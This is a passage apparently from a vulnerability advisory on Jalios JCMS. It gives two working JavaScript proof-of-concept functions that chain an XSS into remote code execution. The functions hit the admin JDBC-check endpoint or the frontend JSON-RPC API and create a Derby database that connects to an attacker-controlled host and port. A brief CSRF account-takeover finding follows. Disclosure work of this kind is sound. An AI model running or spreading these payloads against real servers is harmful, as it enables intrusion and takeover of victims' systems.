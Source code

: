 The exploitation occurs in 2 requests:
- One to create a "Database" object, specific to Jalios.
- One to connect to the database.

Here is a JavaScript code to trigger the code execution from an XSS vulnerability, for example: 
```javascript
async function RCE_v1(host, port) { 
  const headers = new Headers(); 
  headers.append("X-Requested-With", "XMLHttpRequest"); 
  let id = (Math.random() + 1).toString(36).substring(7); 
  const urls = [ 
    `/admin/properties/ajaxJDBC.jsp?db_jcmsdb=derby-remote&db_url=jdbc:derby:${id};create=true&db_username=&db_password=`, 
    `/admin/properties/ajaxJDBC.jsp?db_jcmsdb=derby-remote&db_url=jdbc:derby:${id};startMaster=true;slaveHost=${host};slavePort=${port};&db_username=&db_password=` 
  ]; 
  for (const url of urls) { 
    try { 
      const response = await fetch(url, { 
        method: 'GET', 
        headers: headers 
      }); 
      const result = await response.text(); 
      console.log(result); 
    } catch (error) { 
      console.error('Error:', error); 
    } 
  } 
} 

RCE_v1("<ip>", 36071)
```

Additionally, the frontend exposes a JS API that allows easier interaction with the backend. It is thus possible to perform the two requests in this way: 

```javascript
function RCE_v2(host, port){ 
    let id = (Math.random() + 1).toString(36).substring(7); 
    JcmsJsContext.getJsonRPC().JcmsJSONUtil.checkJDBCConnection("derby-remote",`jdbc:derby:${id};create=true`,"",""); 
    JcmsJsContext.getJsonRPC().JcmsJSONUtil.checkJDBCConnection("derby-remote",`jdbc:derby:${id};startMaster=true;slaveHost=${host};slavePort=${port};`,"",""); 
} 

RCE_v2("<ip>", 36071)
```

These two codes can be hosted on an attacker's server and then imported during an XSS, which drastically increases the severity of the vulnerability.

# Cross-Site Request Forgery (CSRF)
In the absence of CSRF token verification (*channel.security.csrf.enabled*), it is possible to take control of a user account with a single click via a CSRF attack. Although security must be disabled, the user's password should be required to modify the victim's email.  
